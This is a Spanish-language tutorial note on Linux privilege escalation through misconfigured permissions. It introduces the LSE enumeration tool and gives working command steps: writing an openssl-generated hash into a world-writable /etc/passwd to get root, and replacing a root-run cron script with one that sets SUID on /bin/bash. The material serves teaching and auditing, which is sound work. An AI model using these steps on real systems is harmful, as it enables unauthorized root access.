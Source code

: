 # Abuso de permisos incorrectamente implementados

Tags: #Linux #PermisosIncorrectos  #Escalada #Root #Privilegios

En sistemas Linux, los archivos y directorios tienen permisos que se utilizan para controlar el acceso a ellos. Los permisos se dividen en tres categorías: propietario, grupo y otros. Cada categoría puede tener permisos de lectura, escritura y ejecución. Los permisos de un archivo pueden ser modificados por el propietario o por el superusuario del sistema.

El abuso de permisos incorrectamente implementados ocurre cuando los permisos de un archivo crítico son configurados incorrectamente, permitiendo a un usuario no autorizado acceder o modificar el archivo. Esto puede permitir a un atacante leer información confidencial, modificar archivos importantes, ejecutar comandos maliciosos o incluso obtener acceso de superusuario al sistema.

De esta forma, un atacante experimentado podría aprovecharse de esta falla para elevar sus privilegios en el mejor de los casos. Una de las herramientas encargadas de aplicar este reconocimiento en el sistema es ‘**lse**‘. Linux Smart Enumeration (LSE) es una herramienta de enumeración de seguridad para sistemas operativos basados en Linux, diseñada para ayudar a los administradores de sistemas y auditores de seguridad a identificar y evaluar vulnerabilidades y debilidades en la configuración del sistema.

LSE está diseñado para ser fácil de usar y proporciona una salida clara y legible para facilitar la identificación de problemas de seguridad. La herramienta utiliza comandos de Linux estándar y se ejecuta en la línea de comandos, lo que significa que no se requiere software adicional. Además, enumera una amplia gama de información del sistema, incluyendo usuarios, grupos, servicios, puertos abiertos, tareas programadas, permisos de archivos, variables de entorno y configuraciones del firewall, entre otros.

A continuación, se os proporciona el enlace directo al proyecto de GitHub correspondiente a esta herramienta:

- **Linux Smart Enumeration**: [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)


## Permisos incorrectos

```bash 
❯ find / -writable 2>/dev/null | grep -vE "python3.10|proc"          # Podemos encontrar archivos que tengan capacidad de escritura
```

```bash
-rw-r--rw- 1 root root 8756 Feb 7 2022 /etc/passwd                   # Podemos encontrar que el /etc/passwd tiene los permisos mal implementados
```

Para este tipo de escalada:
* Primero debemos de ver que otros puedan  modificar el archivo /etc/passwd
* Después debemos de meter una passwd hardcodeada en la parte de **X** en root, en un formato hash correspondiente.
![](Pasted%20image%2020230529181530.png)

Las passwd las lee del archivo que esta en el **/etc/shadow** 
Pero para este tipo de escalada lo que haremos será que no le daremos la oportunidad de que al momento de poner la passwd la lea del shadow. Y que la passwd que lea será la que esta en el **/etc/passwd** haciéndola que la tome como prioritaria y así nosotros la podamos colocar.

```bash 
❯ openssl passwd                # Esta herramienta nos permite que para una palabra dada me genere un hash que es la propia passwd pero en un formato que el /etc/passwd logra interpretar, ya que por defecto no podemos colocar la passwd en texto claro
```

Después modificamos el /etc/passwd y agregamos el hash que nos arrojo la herramienta anterior. 
![](Pasted%20image%2020230529182157.png)

Una vez modificado migramos al usuario root
```bash 
❯ su root                       # Cambiamos de usuario e ingresamos la palabra que utilizamos en la herramienta de openssl y la tomara como correcta porque la compara con el /etc/passwd
```

* También, podemos usar la herramienta de **lse.sh** o **LinPeas**

* Caso 2:
Cuando tenemos un archivo en nuestro dir que se esta ejecutando cada cierto tiempo y quien lo ejecuta es root. Tareas CRON 
```bash 
-rwxr-xr-x 1 root root 8756 Feb 7 2022 example.sh                   # Miramos sus privilegios y nos damos cuenta que no lo podemos modificar 
```

Pero como este archivo se encuentra en nuestro dir, lo que haríamos seria eliminarlo. 

```bash 
❯ rm example.sh                  # Eliminamos el archivo y despues nos creamos uno con el contenido que querramos que ejecute, claro con el mismo nombre del anterior
❯ nano example.sh                
❯ chmod +x exmaple.sh 

# Le agregamos el contenido que queremos que se ejecute 
#!/bin/bash 
chmod u+s /bin/bash             # Haremos que cuando se ejecute nos otorgue un permiso SUID a la bash 
```

```bash 
❯ watch -n 1 ls -l /bin/bash                                       # Miramos cada seg el privilegio del /bin/bash
-rwsr-xr-x 1 root root 8756 Feb 7 2022 /bin/bash                   # Miramos como ya tiene permisos SUID
```

